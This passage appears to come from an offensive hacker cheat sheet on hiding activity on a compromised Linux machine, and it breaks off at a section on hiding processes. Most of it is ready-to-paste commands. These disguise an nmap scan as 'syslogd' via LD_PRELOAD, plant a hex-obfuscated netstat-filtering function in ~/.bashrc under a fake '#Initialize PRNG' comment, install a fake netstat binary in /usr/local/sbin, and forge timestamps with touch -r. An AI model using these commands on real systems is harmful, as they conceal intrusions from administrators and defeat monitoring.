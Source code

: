 <a id="hya-anchor"></a>
**1.iii. Hide your arguments**

Download [zap-args.c](src/zap-args.c). This example will execute *nmap* but will make it appear as 'syslogd' without any arguments in the *ps alxww* output.

```sh
gcc -Wall -O2 -fpic -shared -o zap-args.so zap-args.c -ldl
LD_PRELOAD=./zap-args.so exec -a syslogd nmap -T0 10.0.0.1/24
```
Note: There is a gdb variant as well. Anyone?

<a id="hide-a-connection"></a>
**1.iv. Hide a Network Connection**

The trick is to hijack `netstat` and use grep to filter out our connection. This example filters any connection on port 31337 _or_ ip 1.2.3.4. The same should be done for `ss` (a netstat alternative).

**Method 1 - Hiding a connection with bash-function in ~/.bashrc**

Cut & paste this to add the line to ~/.bashrc
```shell
echo 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

Or cut & paste this for an obfuscated entry to ~/.bashrc:
```shell
X='netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }'
echo "eval \$(echo $(echo "$X" | xxd -ps -c1024)|xxd -r -ps) #Initialize PRNG" >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

The obfuscated entry to ~/.bashrc will look like this:
```
eval $(echo 6e65747374617428297b20636f6d6d616e64206e6574737461742022244022207c2067726570202d4676202d65203a3331333337202d6520312e322e332e343b207d0a|xxd -r -ps) #Initialize PRNG
```

**Method 2 - Hiding a connection with a binary in $PATH**

Create a fake netstat binary in /usr/local/sbin. On a default Debian (and most Linux) the PATH variables (`echo $PATH`) lists /usr/local/sbin _before_ /usr/bin. This means that our hijacking binary /usr/local/sbin/netstat will be executed instead of /usr/bin/netstat.

```shell
echo -e "#! /bin/bash
exec /usr/bin/netstat \"\$@\" | grep -Fv -e :22 -e 1.2.3.4" >/usr/local/sbin/netstat \
&& chmod 755 /usr/local/sbin/netstat \
&& touch -r /usr/bin/netstat /usr/local/sbin/netstat
```

*(thank you iamaskid)*

<a id="hide-a-process-user"></a>
**1.v. Hide a process as user**

Continuing from "Hiding a connection" the same technique can be used to hide a process. This example hides the nmap process and also takes care that our `grep` does not show up in the process list by renaming it to GREP:
